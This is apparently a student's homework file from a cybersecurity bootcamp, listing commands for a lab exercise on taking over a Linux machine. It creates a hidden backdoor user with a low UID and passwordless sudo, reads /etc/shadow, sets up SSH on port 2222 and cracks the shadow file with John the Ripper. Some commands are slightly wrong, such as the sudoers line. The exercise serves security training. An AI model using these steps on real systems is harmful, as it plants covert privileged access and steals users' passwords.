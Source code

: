 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

        sudo adduser sysd



2. Give your secret user a password: 


        sudo passwd sysd 
3. Give your secret user a system UID < 1000:


        sudo usermod -u 150 sysd

4. Give your secret user the same GID:


        sudo usermod -g 150 sysd

       
5. Give your secret user full `sudo` access without the need for a password:



         sudo visudo
        in nano: sysd ALL=(ALL:ALL) NO PASSWD:ALL
      

6. Test that `sudo` access works without your password:

    

              sudo cat /etc/shadow
**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

        nano /etc/ssh/sshd_config

![pic](image/Nano.png)


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:


        service ssh restart

2. Exit the `root` account:

        exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    
            ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:

         sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:


        ssh sysd@192.168.6.105 -p 2222
        

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

        john /etc/shadow


![pic](image/passwords.png)
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

